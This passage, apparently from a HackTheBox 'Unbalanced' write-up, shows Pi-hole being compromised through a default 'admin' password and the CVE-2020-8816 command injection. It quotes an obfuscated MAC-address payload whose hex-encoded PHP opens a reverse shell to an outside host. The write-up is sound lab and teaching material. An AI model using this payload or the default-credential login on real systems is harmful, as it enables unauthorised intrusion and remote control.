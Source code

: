 ```bash
> curl 172.31.11.3

<html><head>
        <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1"/>
        <link rel='stylesheet' href='/pihole/blockingpage.css' type='text/css'/>
    </head><body id='splashpage'><img src='/admin/img/logo.svg'/><br/>Pi-<b>hole</b>: Your black hole for Internet advertisements<br><a href='/admin'>Did you mean to go to the admin panel?</a></body></html>
```

we found the Pi-hole dashboard `/admin` page!
`pihole.unbalanced.htb`

after we turn on our proxy again the page loads and are able to login with default creds (password is `admin`)

OOF!

navigating to `Settings` we can see the web-based UI version

```
FTL version:	v4.3.1
```

lets research any potential vulns

## Pi-hole version 4.3.2 RCE

this article demonstrates an RCE vuln for version 4.3.2 and earlier

`https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/`

the analysis points to improper input validation when configuring Pi-hole's built-in DHCP server...

```
	From there, users can define static DHCP leases to pin an IP address to a given MAC address.

	When processing user input in the form of MAC addresses, the application does not adequately validate nor validate this input before reusing it in a shell command.
```

this can lead to executing arbitrary code by tampering with the supplied MAC addr (aaaaaaaaaaaa)...

```
	aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS’EXEC(HEX2BIN(“706870202D72202724736F636B3D66736F636B6F70656E282231302E312E302E39222C32323536293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27”));’&&
```

the article follows up with a snippet of the code that causes this vuln (source:`https://github.com/pi-hole/AdminLTE/blob/master/scripts/pi-hole/php/savesettings.php`)

```php
<?php
/* Pi-hole: A black hole for Internet advertisements
*  (c) 2017 Pi-hole, LLC (https://pi-hole.net)
*  Network-wide ad blocking via your own hardware.
*
*  This file is copyright under the latest version of the EUPL.
*  Please see LICENSE file for your rights under this license. */

if(basename($_SERVER['SCRIPT_FILENAME']) !== "settings.php")
{
    die("Direct access to this script is forbidden!");
}

//[...]

function validMAC($mac_addr)
```